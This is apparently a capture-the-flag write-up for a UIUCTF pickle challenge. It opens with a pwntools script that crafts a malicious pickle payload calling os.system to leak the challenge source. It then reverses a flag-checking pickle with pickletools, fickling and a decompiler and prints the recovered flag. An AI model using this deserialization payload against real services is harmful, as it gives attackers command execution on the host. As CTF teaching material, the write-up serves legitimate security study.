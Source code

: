 # Part 1: Leak chal.py

```python
import pickletools
import base64
from pwn import *

r = process(["python3", "chal.py"])

r.recvuntil(b"Give me your best pickle (base64 encoded) to taste! ")

ops = {opcode.name: opcode.code.encode('latin-1') for opcode in pickletools.opcodes}

command = b"cat chal.py"

payload = b''
payload += ops["PROTO"] + p8(4)
payload += ops["MARK"]
payload += ops["SHORT_BINUNICODE"] + p8(len(command)) + command
payload += ops["INST"] + b'os' + b'\n' + b'system' + b'\n'
payload += ops["STOP"]

r.sendline(base64.b64encode(payload))
source_code = r.recvuntil(b"pickle.loads(cucumber)")

print(source_code)
open('chal_original.py', 'wb').write(source_code)
```

# Part 2: Rev check_flag()

After leaking the chal source code, we can see a pickle that somehow can tell if the flag passed to the check_flag function is correct or not.

```python
import pickle
import pickletools

flag_guess = "uiuctf{}"
pick = b'\x80\x04\x96+\x00\x00\x00\x00\x00\x00\x00lbp`sg~S:_p\x7fnf\x81yJ\x8bzP\x92\x95\x8cr\x88\x9d\x90\x8c\x7fb\x96\xa0\xa3\x9e\xae^\xa4s\xa5\xa6y}\xc8\x94\x8c' + len(flag_guess).to_bytes(1, 'little') + flag_guess.encode() + b'\x94\x8c\x08builtins\x8c\x03all\x93\x94\x94\x8c\x08builtins\x8c\x04list\x93\x94\x94\x8c\x08builtins\x8c\x03map\x93\x94\x94\x8c\x05types\x8c\x08CodeType\x93\x94(K\x01K\x00K\x00K\x01K\x05KCC<|\x00d\x01\x19\x00t\x00t\x01\x83\x01k\x00o:|\x00d\x02\x19\x00t\x02t\x01|\x00d\x01\x19\x00\x19\x00\x83\x01d\x03|\x00d\x01\x19\x00d\x04\x17\x00\x14\x00\x17\x00d\x05\x16\x00k\x02S\x00(NK\x00K\x01K\x02KaK\xcbt\x8c\x03len\x8c\x01b\x8c\x03ord\x87\x8c\x01x\x85\x8c\x08<pickle>\x8c\x08<pickle>K\x07C\x00tR\x940\x8c\x05types\x8c\x0cFunctionType\x93\x94(h\t}(\x8c\x03len\x8c\x08builtins\x8c\x03len\x93\x94\x94\x8c\x01bh\x01\x8c\x03ord\x8c\x08builtins\x8c\x03ord\x93\x94\x94uN)tR\x8c\x08builtins\x8c\tenumerate\x93\x94\x94h\x00\x85R\x86R\x85R\x85R.'
open('output.pkl', 'wb').write(pick)
```

Let's analyze the pickle

```python
pickletools.dis(pick)
```

output

```python
0: \x80 PROTO      4
    2: \x96 BYTEARRAY8 bytearray(b'lbp`sg~S:_p\x7fnf\x81yJ\x8bzP\x92\x95\x8cr\x88\x9d\x90\x8c\x7fb\x96\xa0\xa3\x9e\xae^\xa4s\xa5\xa6y}\xc8')
   54: \x94 MEMOIZE    (as 0)
   55: \x8c SHORT_BINUNICODE 'uiuctf{}'
   65: \x94 MEMOIZE    (as 1)
   66: \x8c SHORT_BINUNICODE 'builtins'
   76: \x8c SHORT_BINUNICODE 'all'
   81: \x93 STACK_GLOBAL
   82: \x94 MEMOIZE    (as 2)
   83: \x94 MEMOIZE    (as 3)
   84: \x8c SHORT_BINUNICODE 'builtins'
   94: \x8c SHORT_BINUNICODE 'list'
  100: \x93 STACK_GLOBAL
  101: \x94 MEMOIZE    (as 4)
  102: \x94 MEMOIZE    (as 5)
  103: \x8c SHORT_BINUNICODE 'builtins'
  113: \x8c SHORT_BINUNICODE 'map'
  118: \x93 STACK_GLOBAL
  119: \x94 MEMOIZE    (as 6)
  120: \x94 MEMOIZE    (as 7)
  121: \x8c SHORT_BINUNICODE 'types'
  128: \x8c SHORT_BINUNICODE 'CodeType'
  138: \x93 STACK_GLOBAL
  139: \x94 MEMOIZE    (as 8)
  140: (    MARK
...
153: C        SHORT_BINBYTES b'|\x00d\x01\x19\x00t\x00t\x01\x83\x01k\x00o:|\x00d\x02\x19\x00t\x02t\x01|\x00d\x01\x19\x00\x19\x00\x83\x01d\x03|\x00d\x01\x19\x00d\x04\x17\x00\x14\x00\x17\x00d\x05\x16\x00k\x02S\x00'
...
  390: \x85 TUPLE1
  391: R    REDUCE
  392: .    STOP
```

The most important details are:\
BYTEARRAY8 bytearray(b'lbp`sg~S:\_p\x7fnf\x81yJ\x8bzP\x92\x95\x8cr\x88\x9d\x90\x8c\x7fb\x96\xa0\xa3\x9e\xae^\xa4s\xa5\xa6y}\xc8')\
SHORT_BINBYTES b'|\x00d\x01\x19\x00t\x00t\x01\x83\x01k\x00o:|\x00d\x02\x19\x00t\x02t\x01|\x00d\x01\x19\x00\x19\x00\x83\x01d\x03|\x00d\x01\x19\x00d\x04\x17\x00\x14\x00\x17\x00d\x05\x16\x00k\x02S\x00'

From here you can try to use fickling on `output.pkl`, but it won't work because of the BYTEARRAY8 opcode.\
You can choose to either implement that opcode in fickling or replace the bytearray with an empty regular array in the pickle to get it to work with fickling.\
I will go with the latter option.

```python
fixed_pick = b'\x80\x04]\x94\x8c' + len(flag_guess).to_bytes(1, 'little') + flag_guess.encode() + b'\x94\x8c\x08builtins\x8c\x03all\x93\x94\x94\x8c\x08builtins\x8c\x04list\x93\x94\x94\x8c\x08builtins\x8c\x03map\x93\x94\x94\x8c\x05types\x8c\x08CodeType\x93\x94(K\x01K\x00K\x00K\x01K\x05KCC<|\x00d\x01\x19\x00t\x00t\x01\x83\x01k\x00o:|\x00d\x02\x19\x00t\x02t\x01|\x00d\x01\x19\x00\x19\x00\x83\x01d\x03|\x00d\x01\x19\x00d\x04\x17\x00\x14\x00\x17\x00d\x05\x16\x00k\x02S\x00(NK\x00K\x01K\x02KaK\xcbt\x8c\x03len\x8c\x01b\x8c\x03ord\x87\x8c\x01x\x85\x8c\x08<pickle>\x8c\x08<pickle>K\x07C\x00tR\x940\x8c\x05types\x8c\x0cFunctionType\x93\x94(h\t}(\x8c\x03len\x8c\x08builtins\x8c\x03len\x93\x94\x94\x8c\x01bh\x01\x8c\x03ord\x8c\x08builtins\x8c\x03ord\x93\x94\x94uN)tR\x8c\x08builtins\x8c\tenumerate\x93\x94\x94h\x00\x85R\x86R\x85R\x85R.'
open('output.pkl', 'wb').write(fixed_pick)
```

Here's the output from fickling

```python
from types import CodeType
_var0 = CodeType(1, 0, 0, 1, 5, 67, b'|\x00d\x01\x19\x00t\x00t\x01\x83\x01k\x00o:|\x00d\x02\x19\x00t\x02t\x01|\x00d\x01\x19\x00\x19\x00\x83\x01d\x03|\x00d\x01\x19\x00d\x04\x17\x00\x14\x00\x17\x00d\x05\x16\x00k\x02S\x00', (None, 0, 1, 2, 97, 203), ('len', 'b', 'ord'), ('x',), '<pickle>', '<pickle>', 7, b'')
from types import FunctionType
_var1 = FunctionType(_var0, {'len': len, 'b': 'uiuctf{}', 'ord': ord}, None, ())
_var2 = enumerate([])
_var3 = map(_var1, _var2)
_var4 = list(_var3)
_var5 = all(_var4)
result0 = _var5
```

This code is creating some kind of function, then using it as the mapping function over all the elements in the bytearray.\
Since this is using `all`, the mapper must be returning True or False for a given letter.\
Thus its pretty clear that this code loops over all the elements in the bytearray, and compares them somehow to our input, returning True or False for each element.\
If all the elements are cause the mapper to return true, the pickle will evaluate to true, and we will likely have the flag.\
\
Let's look at the bytearray again

```python
arr = bytearray(b'lbp`sg~S:_p\x7fnf\x81yJ\x8bzP\x92\x95\x8cr\x88\x9d\x90\x8c\x7fb\x96\xa0\xa3\x9e\xae^\xa4s\xa5\xa6y}\xc8')
for c in arr:
  print(c)
```

output

```python
108
98
112
96
115
103
126
83
58
95
112
127
110
102
129
121
74
139
122
80
146
149
140
114
136
...
166
121
125
200
```

Ah, we have an an array of integers!

All that's left is to figure out what's in the function from earlier. I just copied the CodeType directly and wrote it to a pyc file.

```python
import importlib.util
from types import CodeType
import marshal

code = CodeType(1, 0, 0, 1, 5, 67, b'|\x00d\x01\x19\x00t\x00t\x01\x83\x01k\x00o:|\x00d\x02\x19\x00t\x02t\x01|\x00d\x01\x19\x00\x19\x00\x83\x01d\x03|\x00d\x01\x19\x00d\x04\x17\x00\x14\x00\x17\x00d\x05\x16\x00k\x02S\x00', (None, 0, 1, 2, 97, 203), ('len', 'b', 'ord'), ('x',), '<pickle>', '<pickle>', 7, b'')
data = bytearray(importlib.util.MAGIC_NUMBER)
data.extend((0).to_bytes(4, 'little'))
data.extend((0).to_bytes(4, 'little'))
data.extend((0).to_bytes(4, 'little')) # these values aren't important but are required
data.extend(marshal.dumps(code))

open('output.pyc', 'wb').write(data)
```

I used Decompyle++ (https://github.com/zrax/pycdc/tree/master) to convert it to source code. Here is the result:

```python
if x[0] < len(b):
    pass
return x[1] == (ord(b[x[0]]) + 2 * (x[0] + 97)) % 203
```

Let's clean this up with some more descriptive variable names, remembering that x is the parameter to the lambda and it is passed using `enumerate()`.

```python
return bytearray_num == (ord(guessed_flag[i]) + 2 * (i + 97)) % 203
```

Now it's fairly obvious what is happening. All that's left is to recover the flag.

```python
arr = bytearray(b'lbp`sg~S:_p\x7fnf\x81yJ\x8bzP\x92\x95\x8cr\x88\x9d\x90\x8c\x7fb\x96\xa0\xa3\x9e\xae^\xa4s\xa5\xa6y}\xc8')
flag = ""
for i in range(len(arr)):
  flag += chr((arr[i] - 2 * (i + 97)) % 203)
print(flag)
```

output

```
uiuctf{N3Ver_Und3r_3stiMate_P1ckles!e2ba24}
```

Challenge complete!
